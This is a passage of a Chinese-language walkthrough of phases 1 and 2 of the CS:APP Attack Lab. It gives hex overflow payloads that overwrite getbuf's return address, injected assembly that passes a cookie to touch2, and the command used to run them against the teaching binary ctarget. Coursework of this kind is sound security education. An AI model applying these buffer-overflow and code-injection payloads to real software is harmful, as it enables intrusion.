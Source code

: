 如何在函数结束的时候调用其他函数呢，调用函数时栈顶就是返回地址，如果把开辟的40字节栈空间都填充满，再将后面修改为`touch`1的函数地址(`0x4017c0`)，就可以在`getbuf`结束的时候调用`touch`1函数了

`hex2raw`是将16进制数转换为字符串生成的程序，所以随便输入40个16进制数再加上`touch1`的地址即可

`ans1.txt`

> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> c0 17 40 00

注入后的栈帧

> getbuf返回地址	   00 40 17 c0 
> rsp + 32			01 01 01 01 01 01 01 01
> rsp + 24			01 01 01 01 01 01 01 01
> rsp + 16			01 01 01 01 01 01 01 01
> rsp + 8			  01 01 01 01 01 01 01 01
> rsp 				01 01 01 01 01 01 01 01

因为x86是小端机所以地址是`c0 17 40 00`，`./hex2raw < ans1.txt | ./ctarget -q`来测试，`ctarget`默认连接CMU服务器，-q取消连接

出现PASS就是通过了

![ 2024-11-25 172443.png](https://s2.loli.net/2024/11/25/wnvKqYeNbQgpHG3.png)

## phase 2

 ![ 2024-11-25 172951.png](https://s2.loli.net/2024/11/25/GuLmgEn2zXltCIr.png)

和上面一样，让`Ctarget`执行`touch2`代码，还要求了函数的参数`val`要与`cookie`相等，在官方文档中还提到了`cookie`要保存在`%rdi`中，`cookie.txt`可以发现`cookie`的值就是`0x59b997fa`

要注入的汇编代码

```assembly
movq  $0x59b997fa,%rdi	# 传值，将%rdi设置为cookie
pushq $0x004017ec		# 将touch2地址(0x4017ec)压入栈中
retq
```

通过`gcc -c`生成目标文件不链接，`objdump -d`反汇编查看上述指令的二进制码，然后需要得到`getbuf`函数执行时`%rsp`的值(0x5561dc78)，`getbuf`结束跳转回`%rsp`的位置执行我们设置的上述汇编代码

![ 2024-11-25 175617.png](https://s2.loli.net/2024/11/25/thK5EHeQrvwLgxZ.png)

ans2.txt

> 48 c7 c7 fa 97 b9 59
> 68 ec 17 40 00
> c3
> 01 01 01	
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 78 dc 61 55
